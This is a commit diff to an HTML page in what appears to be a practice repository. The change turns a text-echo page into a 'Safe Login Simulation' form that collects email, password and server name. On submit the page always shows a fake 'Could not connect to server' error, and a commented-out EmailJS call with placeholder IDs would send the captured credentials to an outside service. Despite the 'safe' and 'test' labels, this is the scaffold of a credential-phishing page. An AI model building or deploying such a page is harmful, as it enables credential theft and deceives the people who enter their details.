

Before and after one commit to von437/SafeFormPractice2, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,22 +1,45 @@
 <!DOCTYPE html>
 <html>
 <head>
-  <title>My Safe Web Lab</title>
+  <title>Safe Login Lab</title>
 </head>
 <body>
-  <h1 style="color: darkgreen;">Welcome to My Safe Lab!</h1>
-  <p>Type something below and see it appear instantly:</p>
+  <h1 style="color: darkred;">Safe Login Simulation</h1>
+  <p>Enter email, password, and server name to see the simulation:</p>
 
-  <input type="text" id="userInput" placeholder="Type here">
-  <button onclick="showText()">Show Text</button>
+  <form id="loginForm">
+    <input type="text" id="email" placeholder="Email" required><br><br>
+    <input type="password" id="password" placeholder="Password" required><br><br>
+    <input type="text" id="server" placeholder="Server Name" required><br><br>
+    <button type="submit">Work</button>
+  </form>
 
-  <p id="displayArea" style="color: purple; font-weight: bold;"></p>
+  <p id="message" style="color: blue; font-weight: bold;"></p>
 
   <script>
-    function showText() {
-      const input = document.getElementById("userInput").value;
-      document.getElementById("displayArea").innerText = "You typed: " + input;
-    }
+    const loginForm = document.getElementById("loginForm");
+    loginForm.addEventListener("submit", function(event) {
+      event.preventDefault();
+
+      // Read the inputs
+      const email = document.getElementById("email").value;
+      const password = document.getElementById("password").value;
+      const server = document.getElementById("server").value;
+
+      // Show a fake error message
+      document.getElementById("message").innerText = "Error: Could not connect to server.";
+
+      // Optional: Send yourself a test email safely (only to an email you control)
+      // Use EmailJS here for testing, not real users
+      /*
+      emailjs.send("YOUR_SERVICE_ID", "YOUR_TEMPLATE_ID", {
+        email: email,
+        password: password,
+        server: server
+      })
+      .then(function() { console.log("Test email sent."); });
+      */
+    });
   </script>
 </body>
 </html>
```
